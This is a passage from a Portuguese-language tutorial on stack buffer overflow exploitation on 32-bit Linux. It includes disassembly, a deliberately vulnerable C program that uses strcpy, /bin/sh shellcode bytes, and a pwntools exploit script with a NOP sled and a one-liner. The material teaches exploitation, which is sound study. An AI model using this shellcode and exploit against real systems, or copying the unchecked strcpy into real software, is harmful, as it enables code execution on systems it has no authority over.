     804921b:       05 e5 2d 00 00          add    eax,0x2de5
     8049220:       89 c8                   mov    eax,ecx
     8049222:       8b 40 04                mov    eax,DWORD PTR [eax+0x4]
     8049225:       83 c0 04                add    eax,0x4
     8049228:       8b 00                   mov    eax,DWORD PTR [eax]
     804922a:       83 ec 0c                sub    esp,0xc
     804922d:       50                      push   eax
     804922e:       e8 5f ff ff ff          call   8049192 <foo>
     8049233:       83 c4 10                add    esp,0x10
     8049236:       b8 00 00 00 00          mov    eax,0x0
     [...]
    ```

    Podemos ver que as instrucoes só representam alguns conjuntos de bytes escritos na memória que a CPU interpreta cada um como alguma operacao para realizar.

    Com isso, podemos utilizar o que sabemos sobre overflow e escrever o endereco de retorno para ser qualquer um desses enderecos que contem instrucao, por exemplo: `0x8049205` que é o inicio da funcao main. Indo para esse endereco, o programa implesmente vai comecar a executar os bytes da funcao main normalmente.

    Mas e se quisermos executar algum pedaco de código que não está ja escrito no programa, por exemplo:

    ```c
    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
    ```

    Essa sequencia de bytes simplesmente são as intrucoes para o computador abrir um prompt, como o do terminal, para podermos executar qualquer comandos de modo interativo.

    Com o seguinte exemplo adicionar o endereco dessas instrucoes que desejamos dentro do programa e apontar para ela, assim comecaremos a executar a instrucao:

    **shellcode_overflow4.c**

    ```c
    void foo(char *string) {
            char buffer[500];

            strcpy(buffer, string);

            getchar();
    }

    void access_granted() {
            printf("Access Granted");
            fflush(stdout);
    }

    int main(int argc, char **argv) {
            foo(argv[1]);

            return 0;
    }
    ```

    Montei o código no python, usando pwntools para criar a shell.

    **shell4_exploit.py**

    ```c
    # exploit for shellcode_overflow4.c

    from pwn import *

    n1nops = 377
    n2nops = 100
    shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
    address = b"\x74\xcd\xff\xff"

    p = process(['./a.out', b'\x90' * n1nops + shellcode + b'\x90' * n2nops + address * 4])

    p.interactive()

    # Se quiser rodar direto da linha de comando
    # ./a.out $(python -c 'print (b"\x90" * 377 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + b"\x90" * 100 + b"\x74\xcd\xff\xff" * 4)')
    ```

# Pra onde você deve ir agora?

- Shellcode
- HeapOverflow
- Format String

---

# Referências:

- Buffer Overflow Attacks - ComputerPhile: [https://www.youtube.com/watch?v=1S0aBV-Waeo](https://www.youtube.com/watch?v=1S0aBV-Waeo)
- Startup state of a Linux/i386 ELF binary: [http://asm.sourceforge.net/articles/startup.html](http://asm.sourceforge.net/articles/startup.html)
- linux/fs/binfmt_elf.c (Arquivo com funcões de inicializacao do arquivo ELF do Linux): [https://elixir.bootlin.com/linux/latest/source/fs/binfmt_elf.c](https://elixir.bootlin.com/linux/latest/source/fs/binfmt_elf.c)
- How Effective is ASLR on Linux Systems?: [https://securityetalii.es/2013/02/03/how-effective-is-aslr-on-linux-systems/](https://securityetalii.es/2013/02/03/how-effective-is-aslr-on-linux-systems/)